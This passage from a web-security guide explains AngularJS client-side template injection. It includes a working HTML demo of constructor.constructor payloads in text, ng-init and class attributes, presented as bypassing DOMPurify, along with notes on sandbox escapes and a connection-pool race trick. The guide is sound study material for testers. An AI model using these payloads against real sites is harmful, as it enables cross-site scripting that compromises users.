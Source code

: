 When this is enabled, however, many possibilities open up. One of the most interesting is template injection using `{{` characters inside a text string, no HTML tags are needed here! This is a rather well-known technique though, so it may be blocked. In cases of HTML injection with strong filters, you may be able to add custom attributes bypassing filters like [DOMPurify](https://github.com/cure53/DOMPurify). See [this presentation by Masato Kinugawa](https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=33) for some AngularJS tricks that managed to bypass Teams' filters.&#x20;

Here are a few examples of how it can be abused on the latest version. All alerts fire on load:

<pre class="language-html" data-title="Working Demo"><code class="lang-html">&#x3C;script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.3/angular.min.js">&#x3C;/script>

&#x3C;body ng-app>
<strong>  &#x3C;!-- Text injection -->
</strong>  {{constructor.constructor('alert(1)')()}}
<strong>  &#x3C;!-- Attribute injection -->
</strong>  &#x3C;ANY ng-init="constructor.constructor('alert(2)')()">&#x3C;/ANY>
<strong>  &#x3C;!-- Filter bypass (even DOMPurify!) -->
</strong>  &#x3C;ANY data-ng-init="constructor.constructor('alert(3)')()">&#x3C;/ANY>
  &#x3C;ANY class="ng-init:constructor.constructor('alert(4)')()">&#x3C;/ANY>
  &#x3C;ANY class="AAA;ng-init:constructor.constructor('alert(5)')()">&#x3C;/ANY>
  &#x3C;ANY class="AAA!ng-init:constructor.constructor('alert(6)')()">&#x3C;/ANY>
  &#x3C;ANY class="AAA♩♬♪ng-init:constructor.constructor('alert(7)')()">&#x3C;/ANY>
<strong>  &#x3C;!-- Dynamic content insertion also vulnerable -->
</strong>  &#x3C;script>
    document.body.innerHTML += `&#x3C;ANY ng-init="constructor.constructor('alert(8)')()">&#x3C;/ANY>`;
  &#x3C;/script>
&#x3C;/body>
<strong>&#x3C;!-- Everything also works under `data-ng-app`, bypassing DOMPurify! -->
</strong>&#x3C;div data-ng-app>
  ...
  &#x3C;b data-ng-init="constructor.constructor('alert(9)')()">&#x3C;/b>
&#x3C;/div>
</code></pre>

{% hint style="warning" %}
**Warning**: In some older versions of AngularJS, there was a sandbox preventing some of these arbitrary code executions. Every version has been bypassed, however, leading to how it is now without any sandbox. See the following page for a history of these older sandboxes:\
[https://portswigger.net/research/dom-based-angularjs-sandbox-escapes](https://portswigger.net/research/dom-based-angularjs-sandbox-escapes)
{% endhint %}

{% hint style="info" %}
**Tip**: Injecting content with `.innerHTML` does not always work, because it is only triggered _when AngularJS loads_. If you inject content later from a fetch, for example, it would not trigger even if a parent contains `ng-app`.&#x20;

You may still be able to exploit this though, by slowing down the AngularJS script loading by **filling up the browser's connection pool**. [See this challenge writeup for details](https://blog.ryotak.net/post/dom-based-race-condition/).
{% endhint %}
